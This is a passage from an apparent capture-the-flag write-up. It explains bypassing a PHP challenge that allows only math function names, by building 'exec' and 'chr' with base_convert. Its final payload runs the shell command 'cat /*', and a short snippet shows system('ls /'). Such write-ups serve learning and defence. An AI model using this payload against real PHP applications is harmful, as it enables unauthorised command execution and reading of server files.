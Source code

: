 ``` php
                    </div>
                </div>
            <?php endif ?>
            <a href="/?source"></a>
        </div>
    </div>
</body>

</html>
```

In short, it filters the string, and consecutive English words must appear in the list of functions related to math.

In addition, there can be no illegal characters, such as `$`, otherwise it will fail.

Many people have solved this question, but I had no clue when I first saw it, and I thought it would be quite troublesome. After sleeping for a while and waking up, I looked at the list of functions again and saw `base_convert`, which is a conversion of number systems.

Recalling the article I wrote before, [How to write console.log(1) without alphanumeric characters?](https://blog.huli.tw/2020/12/01/write-conosle-log-1-without-alphanumeric/), it actually mentioned that any character can be generated by using number system conversion.

PHP can execute the code like this:

``` php
<?php
 ("system")("ls /");
?>
```

So as long as you can put together the two strings "system" and the command to be executed, this question can be solved.

But it should be noted that there will be spaces and "/" in the command, which cannot be converted by number system conversion. What should we do? You can first put together `chr`, and then use chr with ascii code to generate any character.

The final payload is as follows, combining `exec` and `chr` to form the command:

```
(base_convert(14, 10, 36).base_convert(33, 10, 36).base_convert(14, 10, 36).base_convert(12,10,36))(base_convert(12, 10, 36).base_convert(10, 10, 36).base_convert(29, 10, 36).(base_convert(12,10,36).base_convert(17,10,36).base_convert(27,10,36))(32).(base_convert(12,10,36).base_convert(17,10,36).base_convert(27,10,36))(47).(base_convert(12,10,36).base_convert(17,10,36).base_convert(27,10,36))(42))
```

By the way, I manually put it together, but I think I should write a program next time...

## Summary

I solved these three questions this time, and because it was for leisure, there was no pressure. If I had no idea after looking at the question, I would do something else and come back to continue solving it after a while.
